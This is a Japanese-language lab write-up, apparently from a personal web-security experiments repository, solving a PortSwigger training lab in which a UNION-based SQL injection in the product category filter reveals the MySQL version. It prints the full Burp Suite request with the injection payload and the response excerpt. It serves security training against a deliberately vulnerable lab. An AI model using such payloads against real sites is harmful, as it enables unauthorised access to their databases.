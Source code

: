 # SQL インジェクション攻撃、MySQL および Microsoft 上のデータベースの種類とバージョンをクエリする

次のハッキングラボを実施します  
https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-mysql-microsoft  
このラボには、製品カテゴリ フィルターに SQL インジェクションの脆弱性が含まれています。UNION 攻撃を使用して、挿入されたクエリから結果を取得できます。

- 1. BurpSuite を起動し、Proxy タブからブラウザを立ち上げます
- 2. ハッキングラボにアクセスします
- 3. 製品のフィルタリングを行います
     ![1](https://github.com/pea-sys/web-security-experiments/assets/49807271/183a1509-220a-42c8-9359-0bbd5802afb3)
- 4. GET /filter?category=XXX リクエストを send to repeater します
- 5. リクエストを次のように変更するとデータベースのバージョンが取得できます

```
GET /filter?category=Gifts'+UNION+SELECT+@@version,+1# HTTP/2
Host: 0ae5008d0349238482ad16f400ae00a8.web-security-academy.net
Cookie: session=rnM4reag1q0jr6w2qgRap8pRdOZdF1L8
Sec-Ch-Ua:
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: ""
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.5845.97 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0ae5008d0349238482ad16f400ae00a8.web-security-academy.net/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8
```

レスポンス抜粋

```
8.0.34-0ubuntu0.20.04.1
```
